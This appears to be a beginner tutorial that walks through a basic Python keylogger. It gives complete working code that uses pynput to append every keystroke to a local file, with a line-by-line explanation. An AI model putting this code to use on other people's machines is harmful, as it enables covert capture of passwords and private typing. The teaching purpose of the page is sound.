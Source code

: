 What this program does
This program listens to your keyboard and stores every key you press into a file named listening.txt.
This is how a basic keylogger works.

Step-by-step explanation
1. Import the required library
python
Copy
Edit
from pynput.keyboard import Listener
pynput is a Python library that can listen to keyboard and mouse events.

Listener is a class that waits for keys to be pressed.

2. Function to save keys into a file
python
Copy
Edit
def write_to_file(key):
    letter = str(key)          # Convert key into a string
    letter = letter.replace("'", "")  # Remove extra quotes
Whenever you press a key, it’s given to this function as key.

We convert it to a string because we want to write it into a file.

Example: If you press a, it becomes "a".

3. Handle special keys
python
Copy
Edit
    if letter == 'Key.space':
        letter = ' '           # Change space key to actual space
    if letter == 'Key.shift_r':
        letter = ''            # Ignore the right shift key
    if letter == "Key.ctrl_l":
        letter = ""            # Ignore left control key
    if letter == "Key.enter":
        letter = "\n"          # Enter key makes a new line
Some keys (like space, enter, shift) are not letters, so we replace them with something meaningful or ignore them.

4. Save the key into a file
python
Copy
Edit
    with open("listening.txt", 'a') as f:
        f.write(letter)
with open(..., 'a') means open file in append mode — so new keys are added at the end without deleting old ones.

f.write(letter) writes the key pressed into the file.

with automatically closes the file after writing.

5. Start listening for keys
python
Copy
Edit
with Listener(on_press=write_to_file) as l:
    l.join()
This starts the keyboard listener.

Every time a key is pressed, it calls the function write_to_file().

l.join() makes the program run forever until you stop it manually.

6. Why with is used here
It’s a safe way to make sure resources (like the keyboard listener) are properly stopped and freed from memory, even if something goes wrong.

How this works in real life
You run the program.

It waits in the background for keys.

Every key you press is written into listening.txt.

Stop the program (Ctrl+C or close the terminal).

Open listening.txt — you’ll see everything typed.
